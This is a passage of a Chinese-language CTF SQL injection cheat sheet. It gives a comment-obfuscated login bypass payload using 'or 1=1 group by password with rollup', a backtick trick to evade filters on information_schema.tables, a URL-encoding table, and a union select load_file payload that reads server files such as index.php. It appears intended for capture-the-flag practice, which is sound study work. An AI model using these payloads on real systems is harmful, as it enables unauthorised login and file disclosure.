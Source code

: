 对密码进行验证时可以使用这个，使得 NULL = NULL 即可

```
payload:username=admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#&password=
```

## information_schema.tables、information_schema.columns 过滤

使用

```
information_schema.`tables`
```

## 9.常见url编码

```
+	%2B
@	%40
:	%3A
;	%3B
<	%3C
=	%3D
>	%3E
?	%3F
z	%7A
{	%7B
}	%7D
~	%7E
空格	%20
！	%21
"	%22
#	%23
$	%24
%	%25
&	%26
'	%27
(	%28
)	%29
0	%30
1	%31
```



# 8.直接读取文件

有的 sql 注入题目可以直接读取一些相关页面，可以读到 flag

使用 load_file 读一下

```
-1 union select load_file('var/www/html/index.php')
```
